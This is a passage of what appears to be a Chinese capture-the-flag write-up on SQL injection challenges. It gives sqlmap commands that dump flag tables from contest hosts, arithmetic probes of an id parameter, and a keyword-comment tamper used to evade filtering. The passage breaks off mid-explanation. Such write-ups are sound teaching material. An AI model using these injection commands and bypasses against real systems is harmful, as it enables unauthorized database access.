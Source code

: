 ![enter image description here](img/img33_u8_png.jpg)

**Web Base1**

简单的 Get 型注入。

```
python sqlmap.py –u http://syc.myclover.org/pentest/web1/read.php?id=1 --dbms mysql -D webbase1 -T flag --dump 
```

![enter image description here](img/img34_u9_png.jpg)

**Web Base2**

Post 搜索型注入。

```
python sqlmap.py –u http://syc.myclover.org/pentest/web2/search.php --data “key=my” --dbms mysql -D webbase2 -T #flag --dump 
```

![enter image description here](img/img35_u7_png.jpg)

**SQL 注入**

链接是 sqlmap.org 的山寨页面，在 http response header 里发现提示，index.php?id=。分别取 id=1/2/3/4，页面与默认页面均不同。id=4-1 与 id=3 一样，id=2%2B1 与 id=3 也一样，id 应该就是所需要的注入点了。 如果直接上 sqlmap 的话，会发现有 mysql 的 payload，但是 sqlmap 无法识别 database 类型。

![enter image description here](img/img36_u5_png.jpg)

在尝试多个 tamper 之后，发现对关键字进行保护(对关键字添加/*!*/，如/!*select*/)的 versionedmorekeywords.py 能有斩获，payload 发生了变化，也可以跑出一个数据库。

![enter image description here](img/img37_u4_png.jpg)

MySQL 的表结构都存放在 information_schema 中，不能访问这个库，就无法知道 sqli 库的结构，使用 common-tables 爆破表名也未果。下图中无法获取数据库的个数，当时觉得可能是过滤了 information_schema，也没有想到好的绕过方法，至此暂时陷入了僵局。

![enter image description here](img/img38_u5_png.jpg)

两天后，主办方在页面注释中给出了新提示，

> 分享到：

### 相关日志

*   [360hackgame writeup](http://drops.wooyun.org/tips/1666)
*   [使用 netcat 进行反弹链接的 shellcode](http://drops.wooyun.org/tips/1376)
*   [RFID 之 M1 卡数据分析](http://drops.wooyun.org/tips/3168)
*   [逆向基础（三）](http://drops.wooyun.org/tips/1963)
*   [撞库扫号防范](http://drops.wooyun.org/tips/2830)
*   [GSM Hackeing 之 SMS Sniffer 学习](http://drops.wooyun.org/tips/723)